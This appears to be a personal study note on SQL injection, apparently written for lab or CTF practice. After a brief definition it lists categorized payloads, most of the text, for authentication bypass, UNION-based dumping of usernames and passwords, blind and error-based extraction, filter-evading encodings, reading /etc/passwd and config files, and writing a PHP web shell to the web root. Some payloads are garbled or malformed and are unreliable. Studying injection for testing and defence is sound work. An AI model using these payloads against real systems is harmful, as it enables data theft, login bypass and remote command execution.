 
[[6. Injection Attacks]]

## What is SQL Injection ? 

- **SQL Injection is a web vulnerability where an attacker ==injects malicious SQL code into an application’s database query via user input== (e.g., a URL parameter, form field, or cookie).**

- *If the app doesn’t sanitize inputs, the injected code can manipulate the query to extract data, bypass authentication, or even execute commands.


## SQL Injection Cheat sheet : 

https://portswigger.net/web-security/sql-injection/cheat-sheet

## List of payloads of SQLi : 

1. **Classic SQLi Payloads** : 

	- `1 OR 1=1`
	- `1 OR '1'='1`
	- `1' OR '1'='1`
	- `1" OR "1"="1`
	- `1 --`
	- `1 #`
	- `1/*`
	- `1' --`
	- `1' #`
	- `1'/*`
	
2. **Authentication Bypass Payloads :** 

	- `admin' OR 1=1 --`
	- `admin' OR '1'='1' --`
	- `admin' OR 1=1#`
	- `admin' OR '1'='1'#`
	- `admin' OR 1=1/*`
	- `jeremy' OR 1=1#`
	- `jeremy' OR '1'='1' --`
	- `' OR ''='`
	- `' OR '1'='1`
	- `admin" OR "1"="1 --`
	- `") OR ("1"="1`
	- `') OR ('1'='1`

3. **UNION-Based Payloads : **

	- `1 UNION SELECT 1,2`
	- `1 UNION SELECT 1,2,3`
	- `1 UNION SELECT 1,@@version,3`
	- `1 UNION SELECT 1,database(),3`
	- `1 UNION SELECT 1,schema_name,3 FROM information_schema.schemata`
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables`
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema='lab_db'`
	- `1 UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'`
	- `1 UNION SELECT 1,username,password FROM users`
	- `1 UNION SELECT 1,flag,3 FROM flags`
	- `1 UNION SELECT 1,secret,3 FROM secrets`
	- `1 UNION SELECT 1,concat(username,':',password),3 FROM users`
	- `1 UNION SELECT 1,2,3 (for invalid IDs)`
	- `1 UNION ALL SELECT 1,2,3`

4. **Blind Boolean-Based Payloads :**

	- `1 AND 1=1`
	- `1 AND 1=2`
	- `1 AND (SELECT 1 FROM users WHERE username='admin')=1`
	- `1 AND (SELECT 1 FROM users WHERE username='jeremy')=1`
	- `1 AND (SELECT count(*) FROM users)>0`
	- `1 AND (SELECT length(database()))=7`
	- `1 AND ascii(substring((SELECT database()),1,1))=108 (extracts l from lab_db)`

5. **File Operation Payloads (MySQL) :**

	- `1 UNION SELECT 1,LOAD_FILE('/etc/passwd'),3`
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/config.php'),3`
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/flag.txt'),3`
	- `1 UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php'`
	- `1 UNION SELECT 1,@@secure_file_priv,3 (check file access restrictions)`

6. **Encoded Payloads (Bypass Filters) :**

	- `1%27%20OR%20%271%27=%271 (' OR '1'='1)`
	- `%27%20OR%201=1%23 (' OR 1=1#)`
	- `1%20UNION%20SELECT%201%2C@@version%2C3`
		-  `1%20AND%20IF%28ascii%28substring%28%28SELECT%20database%28%29%29%2C1%2C1%29%29=108%2CSLEEP%285%29%2C0%29`

7. **Miscellaneous Payloads :**

	- `1 ORDER BY 1 (test column count)`
	- `1 ORDER BY 2`
	- `1 ORDER BY 3`
	- `1 UNION SELECT 1,v` ersion (), 3
	- `1 AND (SELECT 1)=1`
	- `1' AND '1'='1`
	- `1" AND "1"="1`
	- `1 OR true`
	- `1 AND false`

8. **Error-Based Payloads (MySQL) :**

	- `1 AND extractvalue(1,concat(0x7e,(SELECT @@version)))`
	- `1 AND (SELECT 1 FROM (SELECT count(*),concat((SELEC database()),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) ) )a)`
	- `1' AND extractvalue(1,concat(0x7e,(SELECT username FROM users LIMIT 0,1)))#`